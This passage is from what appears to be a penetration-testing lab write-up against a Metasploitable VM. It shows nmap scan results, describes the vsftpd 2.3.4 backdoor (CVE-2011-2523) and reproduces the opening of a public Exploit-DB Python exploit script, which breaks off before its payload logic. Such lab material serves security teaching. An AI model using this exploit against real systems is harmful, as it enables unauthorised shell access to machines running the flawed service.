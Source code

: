 ``` bash
Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.71 seconds
```
Now that we have the service versions available we can proceed on to the weaponisation stage.

---

## 2. Weaponisation

Before attempting a physical attack it is imperative that we begin creating a plan that is tailored to our situation and by selecting our tools early on we can research the capabilities or discover weaknesses.

Our initial recon has given us the information we need to search for known vulnerabilities. Searching services and their versions in [Exploit DB](https://www.exploit-db.com) and [Msfconsole](https://www.offsec.com/metasploit-unleashed/msfconsole/) reveals that the services running on the machine are outdated and contain a variety of known exploits. 

[Exploit Public-Facing Application - T1190](https://attack.mitre.org/techniques/T1190/)
**vsftpd 2.3.4** is an open-source FTP server used for file transfer in Unix-like operating systems. This is particularly useful for threat actors to enable data exfiltration as this service is designed for file transfer across networks. Searching the service name and version on exploit-db **"vsftp 2.3.4"** reveals that there is a known vulnerability that allows backdoor command execution on machines that use this version of vsftpd. [NIST](https://www.nist.gov/) has created a CVE listing for this vulnerability [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) with the description:
>*"vsftpd 2.3.4 downloaded between 20110630 and 20110703 contains a backdoor which opens a shell on port 6200/tcp."*

Backdoors are hidden entry points that allow direct unauthorised access into applications, systems and networks. In the case of CVE-2011-2523, the package that was distributed allowed users to login to the server with a **:)** and gain a command shell on port **6200**

The Exploit-db listing also contains a python script which can be used to exploit this vulnerability. 
``` python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line
```